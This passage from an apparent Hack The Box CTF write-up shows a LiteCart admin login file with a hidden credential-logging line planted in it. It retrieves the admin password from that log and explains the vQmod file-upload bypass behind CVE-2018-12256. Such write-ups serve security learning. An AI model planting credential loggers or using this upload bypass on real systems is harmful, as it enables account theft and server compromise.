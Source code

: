 ```PHP

  if (isset($_POST['login'])) {
    //file_put_contents("./.log2301c9430d8593ae.txt", "User: " . $_POST['username'] . " Passwd: " . $_POST['password']);
    user::login($_POST['username'], $_POST['password'], $redirect_url, isset($_POST['remember_me']) ? $_POST['remember_me'] : false);
  }

  if (empty($_POST['username']) && !empty($_SERVER['PHP_AUTH_USER'])) $_POST['username'] = !empty($_SERVER['PHP_AUTH_USER']) ? $_SERVER['PHP_AUTH_USER'] : '';

  $page_login = new view();
  $page_login->snippets = array(
    'action' => $redirect_url,
  );
  echo $page_login->stitch('pages/login');

  require_once vmod::check(FS_DIR_HTTP_ROOT . WS_DIR_INCLUDES . 'app_footer.inc.php');
```

That `file_put_contents()` line will put the credentials entered by the user in a file called `.log2301c9430d8593ae.txt` in the `/shop/admin` directory so it is worth checking if that file exists or not by visiting `http://10.10.10.207/shop/admin/.log2301c9430d8593ae.txt`

![img](https://raw.githubusercontent.com/FreezeLuiz/CTF-Writeups/master/Boxes/htb-compromised/images/htb-compromised-wwwdata-creds.PNG "noice!")

>User: admin Passwd: theNextGenSt0r3!~

And just like that we found admin credentials for the CMS, time to see how the CVE works now. 

### CVE-2018-12256 Arbitrary File Upload

The [exploit](https://www.exploit-db.com/exploits/45267) is pretty straight forward, you can send PHP scripts to the server to be executed via the `vQmod` xml upload capability, the server will accept the request only if you change the `Content-Type: application/x-php` from `x-php` to `xml` 
